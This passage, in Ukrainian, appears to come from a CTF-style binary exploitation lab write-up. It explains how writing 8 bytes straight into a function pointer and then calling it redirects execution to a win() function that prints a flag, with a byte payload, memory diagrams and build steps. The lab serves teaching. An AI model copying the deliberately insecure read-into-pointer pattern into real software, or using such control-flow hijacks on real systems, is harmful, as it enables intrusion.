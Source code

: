 **Крок 2:** Читає 8 байт з вводу **безпосередньо в fp**:
```c
read(0, &fp, 8);
```
- `&fp` - адреса самої змінної fp в пам'яті
- Що б ви не відправили, буде записано в fp

**Крок 3:** Викликає функцію за адресою з fp:
```c
fp();
```
- Якщо ми відправили `0x401136` (адресу win)
- Процесор стрибне на `0x401136` і виконає `win()`!

### Візуалізація пам'яті

**До читання:**
```
Stack:
┌─────────────┐
│ fp = 0x0000 │  ← NULL
└─────────────┘
```

**Ми відправляємо:** `\x36\x11\x40\x00\x00\x00\x00\x00` (адреса 0x401136)

**Після read():**
```
Stack:
┌─────────────┐
│ fp = 0x401136 │  ← Адреса win()!
└─────────────┘
```

**Після fp():**
```
Процесор стрибає на 0x401136:
→ win() виконується
→ FLAG{STAGE4_DIRECT_JUMP}
```

## 🚀 Покрокове рішення

### Крок 1: Збудуйте бінарник

```bash
cd stage04_demo_no_offset
./build.sh
```

Вивід:
```
[*] Building stage04_demo_no_offset...
[+] Built: ../build/stage04_demo_no_offset
[+] Binary has win() function at a fixed address
```
